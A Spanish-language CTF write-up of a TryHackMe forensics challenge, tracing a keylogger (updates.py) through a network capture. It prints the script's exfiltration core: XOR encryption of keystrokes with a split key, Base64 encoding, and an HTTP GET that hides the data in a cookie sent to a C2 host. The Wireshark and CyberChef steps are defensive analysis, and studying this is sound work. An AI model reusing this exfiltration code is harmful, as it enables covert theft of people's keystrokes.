




Plataforma
TryHackMe
Se identificó un canal encubierto de exfiltración de datos en una captura de tráfico de red del resort. Un script malicioso (updates.py) operaba como keylogger, cifrando las pulsaciones de teclado con XOR y codificándolas en Base64 para enviarlas a un servidor C2 ocultas dentro de cookies HTTP.
El punto de partida fue un archivo de captura de red (traffic.pcapng) proporcionado por VERA. Según el briefing, alguien estaba exfiltrando datos del resort disfrazándolos como tráfico ordinario — paquetes pequeños, a intervalos regulares, en horarios nocturnos.
Al abrir la captura en Wireshark se observaron 1348 paquetes. El tráfico inicial consistía en conexiones TCP sobre loopback (127.0.0.1) y solicitudes ARP entre dispositivos de la red local. A primera vista, nada evidentemente malicioso.
# Apertura del pcap y análisis inicial
Wireshark → traffic.pcapng
Total: 1348 paquetes
Protocolos observados: TCP, ARP, HTTPAl aplicar el filtro http el panorama cambió: se reveló una serie de solicitudes HTTP GET entre dos hosts (192.168.1.141 y 34.41.103.191) con un patrón repetitivo y rítmico, exactamente el tipo de tráfico que el briefing describía.

La primera solicitud HTTP destacada era un GET /temp/updates.py hacia el host byte-lotus-hotel.thm:8080. El servidor respondió con un script Python completo de tipo text/x-python. Al seguir el TCP stream (stream 5) se reveló el contenido íntegro del script: un keylogger que capturaba cada pulsación de teclado y la exfiltraba al servidor C2.
El mecanismo era el siguiente:
pynput para capturar teclas en tiempo real.p1 = "H0t3lSt@ff0Nly" y p2 = "K3epS3cr3t!".hotel_sess_state en solicitudes GET al C2.ByteLotusClient/1.1 para mimetizarse con tráfico legítimo del hotel.[*] Byte Lotus Sync Service started... al ejecutarse. La clave XOR dividida en dos variables (p1 + p2) es una técnica básica de ofuscación para evitar detección por strings estáticos.
Paso 1 — Identificación del script malicioso. Se filtró el tráfico HTTP y se localizó la solicitud inicial GET /temp/updates.py. Siguiendo el TCP stream se extrajo el código fuente completo del keylogger.
# Fragmento clave del script updates.py
C2_URL = "http://byte-lotus-hotel.thm:8080/"
def getkey():
p1 = "H0t3lSt@ff0Nly"
p2 = "K3epS3cr3t!"
return p1 + p2
def xor(data: bytes, key: bytes) -> bytes:
return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
def sendltr(character):
raw_bytes = character.encode('utf-8')
encrypted = xor(raw_bytes, getkey().encode('utf-8'))
b64_string = base64.b64encode(encrypted).decode('utf-8')
headers = {
"User-Agent": "Mozilla/5.0 ... ByteLotusClient/1.1",
"Cookie": f"hotel_sess_state={b64_string}"
}
requests.get(C2_URL, headers=headers, timeout=0.5)Paso 2 — Filtrado de paquetes con datos exfiltrados. Conociendo que los datos viajaban en la cookie hotel_sess_state, se aplicó el filtro de Wireshark:
http.cookie contains "hotel_sess_state"Esto aisló todos los paquetes que contenían keystokes cifrados, revelando decenas de solicitudes GET periódicas hacia el C2.

Paso 3 — Extracción y decodificación. Se extrajeron los valores Base64 de las cookies y se concatenaron. Luego se utilizó CyberChef para revertir el proceso: From Base64 → XOR con la clave H0t3lSt@ff0NlyK3epS3cr3t!.
# Receta CyberChef
From Base64 → XOR (Key: H0t3lSt@ff0NlyK3epS3cr3t!, Scheme: Standard)
La decodificación reveló el contenido completo de las pulsaciones de teclado capturadas, incluyendo la flag del reto. El impacto de este tipo de ataque en un entorno real sería severo:
pynput en estaciones de trabajo del hotel.Este reto demuestra que la exfiltración de datos no necesita canales sofisticados — una simple cookie HTTP basta para sacar información byte a byte sin levantar sospechas a primera vista. La clave está en reconocer los patrones: tráfico periódico, tamaño uniforme, destino constante.
Desde el lado forense, seguir la cadena completa (captura → script → mecanismo → datos → decodificación) es fundamental. No alcanza con encontrar el script: hay que entender el cifrado, extraer los datos del canal encubierto y revertir el proceso para demostrar el impacto. Las herramientas como Wireshark (filtros, TCP streams) y CyberChef (cadenas de decodificación) son esenciales en este tipo de análisis.